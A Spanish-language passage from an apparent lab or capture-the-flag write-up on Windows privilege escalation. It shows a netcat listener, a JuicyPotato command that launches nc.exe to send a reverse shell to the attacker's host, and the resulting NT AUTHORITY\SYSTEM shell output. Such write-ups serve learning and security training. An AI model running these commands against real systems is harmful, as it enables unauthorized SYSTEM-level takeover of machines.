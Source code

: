 Lo siguiente que debemos hacer es ponernos en `escucha` por el `puerto 9001`, el `puerto 443` puede dar en ocasiones `problemas` porque es un `puerto privilegiado`, si nos da error debido al `CLSID` lo único que hay que hacer es `probar` con `otro`

```
# rlwrap nc -nlvp 9001
```

`Ejecutamos` el binario `JuicyPotato`

```
PS C:\Users\merlin\Desktop> ./JuicyPotato.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p C:\Windows\System32\cmd.exe -a "/c C:\Users\merlin\Desktop\nc.exe -e cmd.exe 10.10.16.16 9001" -t *
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 1337
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Desde nuestro equipo deberíamos recibir esta consola como `nt authority\system`

```
# rlwrap nc -nlvp 9001 
listening on [any] 9001 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.74.109] 49175
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
